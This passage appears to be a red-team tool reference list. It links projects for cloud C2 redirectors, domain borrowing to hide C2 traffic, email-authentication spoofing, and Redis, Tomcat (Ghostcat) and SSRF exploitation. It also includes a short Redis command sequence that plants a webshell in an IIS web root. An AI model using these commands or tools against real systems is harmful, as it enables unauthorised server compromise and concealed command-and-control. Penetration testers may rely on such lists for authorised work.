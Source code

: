 https://github.com/Coalfire-Research/Red-Baron - terraform cloud c2 redirector setup

https://github.com/qsecure-labs/overlord - Red Teaming Infrastructure Automation based on Red-Baron

https://github.com/rmikehodges/hideNsneak - This application assists in managing attack infrastructure for penetration testers by providing an interface to rapidly deploy, manage, and take down various cloud services. These include VMs, domain fronting, Cobalt Strike servers, API gateways, and firewalls.

https://github.com/shr3ddersec/Shr3dKit

https://github.com/t94j0/satellite

https://github.com/Cerbersec/DomainBorrowingC2 - Domain Borrowing is a new method to hide C2 traffic using CDN. It was first presented at Blackhat Asia 2021 by Junyu Zhou and Tianze Ding. 

https://github.com/Dliv3/DomainBorrowing - Domain Borrowing PoC

# Bypass SPF/DKIM/DMARC

https://github.com/chenjj/espoofer

# Redis Exploitation

https://github.com/n0b0dyCN/redis-rogue-server

https://github.com/Ridter/redis-rce

MSF:

* scanner/redis/file_upload

* exploit/linux/redis/redis_replication_cmd_exec

Windows Targets - Webshell upload
```
redis-cli -h targethost -p targetport
config set dir C:\inetpub\wwwroot\
config set dbfilename shell.aspx
set test "Webshell content"
save
```

# Apache Tomcat Exploitation

https://github.com/mgeeky/tomcatWarDeployer - Apache Tomcat auto WAR deployment & pwning penetration testing tool.

https://github.com/00theway/Ghostcat-CNVD-2020-10487 - AJP Exploit CVE-2020-1938

https://github.com/Ridter/redis-rce

# SSRF Exploitation

https://github.com/swisskyrepo/SSRFmap
